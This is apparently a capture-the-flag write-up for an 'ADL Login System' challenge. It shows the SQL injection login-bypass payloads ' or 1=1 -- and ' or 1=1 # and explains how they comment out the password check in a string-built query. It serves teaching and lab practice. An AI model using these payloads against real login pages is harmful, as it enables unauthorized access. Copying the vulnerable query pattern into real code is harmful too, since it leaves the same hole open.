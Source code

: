 # ADL Login System

![img](ADLLoginSystem.JPG)

This is a login page, telling us to input a username and a password.

When seeing this, I thought of SQL injection.

The most simple SQL injection is:

	' or 1=1 -- 
	**Note: There's a space at the back**

So we input this in the username section and login....

![img2](ADLLoginSystem-SOL.JPG)

If no space behind the `--` then both the username and password section need to input the same thing

![img3](ADLLoginSystem-SOL1.JPG)
	
Yet there is another solution:

	' or 1=1 #
	
![img4](ADLLoginSystem-SOL2.JPG)

These SQL injection works because they make the rest part of the SQL code into comments.


Normal SQL code to obtain and check username and password:

	SELECT * FROM users WHERE name = '$name' and password = '$password'

Hence with `'` at the beginning of our input, and the comment symbol at the end of our input, the code becomes:

	SELECT * FROM users WHERE name = '' or '1'='1' -- and password = '$password'
	SELECT * FROM users WHERE name = '' or '1'='1' #and password = '$password'
	
Therefore, it only checks the username input, which is `'' or '1'='1'`, and will undoubtedly return 1. 

(Everything, on the same line, after `-- ` and `#` is turned into comments)

	

	
